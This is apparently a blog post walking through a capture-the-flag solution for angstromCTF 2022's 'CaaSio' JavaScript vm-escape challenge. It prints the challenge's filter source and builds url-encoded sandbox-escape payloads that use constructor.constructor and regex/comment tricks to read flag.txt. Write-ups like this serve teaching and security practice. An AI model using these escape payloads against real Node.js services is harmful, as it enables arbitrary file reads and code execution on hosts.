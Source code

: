 ```yaml
---
layout: post
title:	"angstromCTF - Caasio"
date:	2022-05-06 08:20:21
categories:
    - blog
tags:
    - jsjail
    - misc
---
```



# Description
This is a challenge about _escape js vm_ in AnstromCTF 2022.

![image](https://user-images.githubusercontent.com/75429369/169534308-b7189ea9-8d48-49c4-b629-78564ee942f8.png)

# Solution

Read out the description and we'll know that we have to escape something _**jsjails**_, let's connect to the _**nc**_ !

![image](https://user-images.githubusercontent.com/75429369/169534898-d96539eb-e365-4290-82be-63e288d63ec5.png)

We can figure out that the program will wait the user to input a calculation and then it will give the result.
At this point, we've already known what we have to do is escape the js vm, after researching for solution, previous write up, .... I've made a payload and test it out:

![image](https://user-images.githubusercontent.com/75429369/169539477-568f9572-9e53-4860-9007-e9f633f06ded.png)

Hmmm, it's not like the first test when we only gave it a calculation, maybe the program has blocked some characters. Let's read the source:

```js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

Like I said, it has blacklist filtered some characters such as: dot, brackets, backslash, underscore, greater,...

Looks like it has filtered all the special characters but no, the percent "%" hasn't. So we can easily bypass this regex by using urlencode, remember to put the payload into _**decodeURIComponent**_ and wrap it into _**eval**_ to evaluate:

```js
eval(decodeURIComponent(this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()))
```

![image](https://user-images.githubusercontent.com/75429369/169539910-cbec5b74-8ac9-4d92-ab8d-4e5da2211feb.png)

I've thought this is it but it didn't... Maybe something wrong with the string that made the command didn't work.

I was in the deadlock for like 4-5 hours until I read the source again and realised that the forward slash "/" hasn't filtered. We can use it as a regex to convert it into a string, just add "/" at the start and the end of the payload:

```js
eval(decodeURIComponent(/this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()/))
```
![image](https://user-images.githubusercontent.com/75429369/169540893-a87ab025-ee63-424b-9dd2-81ee1460c895.png)

WHAT, it didn't work but at least we have a little sparkle. It done parsed the regex into string, but it didn't evaluate because it wasn't a valid expression. 

Now let me do a trick, I just add another forward slashes at the first and the end of the payload again to comment it out, then use a line break to seperate the command, so we'll have our payload worked like a charm:

```js
eval(decodeURIComponent(/%2F%0Athis%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()%2F/))
```

It'll become this:

```js
eval(// commented so not evaled
this.constructor.constructor("return this.process.mainModule.require('fs').readFileSync('flag.txt')")() //) commented so not evaled
```
![image](https://user-images.githubusercontent.com/75429369/169543579-e158e4a9-7f6c-42aa-8244-71ba0e584980.png)

Take the buffer and decode by hex and we'll get the flag yay

```
actf{omg_js_is_like_so_quirky_haha}
```
Nice challenge after all.

Thank you for reading !!!

_The End_

